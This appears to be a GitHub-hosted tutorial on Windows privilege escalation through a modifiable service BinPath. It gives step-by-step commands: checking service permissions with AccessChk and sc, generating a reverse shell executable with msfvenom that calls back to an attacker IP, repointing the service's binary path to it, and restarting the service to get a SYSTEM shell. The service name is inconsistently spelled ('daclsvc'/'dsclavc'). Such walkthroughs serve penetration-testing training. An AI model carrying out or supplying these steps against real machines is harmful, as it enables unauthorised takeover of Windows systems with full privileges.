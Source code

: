 # Escalation **via BinPath**

Some Windows services allow users to change their executable path (BinPath). If you can modify this path, you can replace the service with a malicious executable (like a reverse shell). When the service restarts, it runs your payload with high privileges (often SYSTEM).

### **1. Find Vulnerable Services**

Run **WinPEAS** or **PowerUp.ps1** to find services with weak permissions:

<img width="1124" height="95" alt="image" src="https://github.com/user-attachments/assets/df1185df-d5f6-4c91-938c-ffbd916b36a8" />

OR

<img width="962" height="71" alt="image" src="https://github.com/user-attachments/assets/4adb4cc2-0f89-42dd-8cd4-d013c2b6c810" />

Look for services with:

✔ **SERVICE_CHANGE_CONFIG** permission

✔ **Writable BinPath**

*(Example: Suppose `daclsvc`  is vulnerable here.)*

### **2. Check Permissions**

Use **AccessChk** to confirm you can modify the service:

```bash
.\accesschk.exe /accepteula -uwcqv user dsclavc
```

<img width="973" height="263" alt="image" src="https://github.com/user-attachments/assets/0db2af6e-3309-4b0c-8402-bfe547b5d526" />

✅ **You need these permissions:**

- **`SERVICE_CHANGE_CONFIG`** (to modify the service)
- **`SERVICE_START/STOP`** (to restart it)

*(If missing, try another service!)*

### **3. Check Service Details (Optional)**

```
sc qc dsclavc        # Check executable path & privileges
sc query dsclavc     # Check if service is running
```

🔹 **If it runs as `LocalSystem` → Perfect!**

Here you can see the `SERVICE_START_NAME` is LocalSystem it means the service runs with **very high privileges** and the `BINARY_PATH_NAME`  which you are going to modify

<img width="1241" height="482" alt="image" src="https://github.com/user-attachments/assets/ca6be8b8-a465-48ca-9b63-0ab47ac25b86" />

### **4. Generate a Reverse Shell**

On your Kali machine:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```

Upload **`evil.exe`** to the victim machine.

### **5. Change the Service BinPath**

```
sc config dsclavc binpath= "C:\Temp\evil.exe"
```

*(Replace **`C:\Temp\evil.exe`** with your payload path.)*

### **6. Restart the Service**

```
net stop dsclavc
net start dsclavc
```

🎉 **If successful, you get a reverse shell with SYSTEM privileges!**
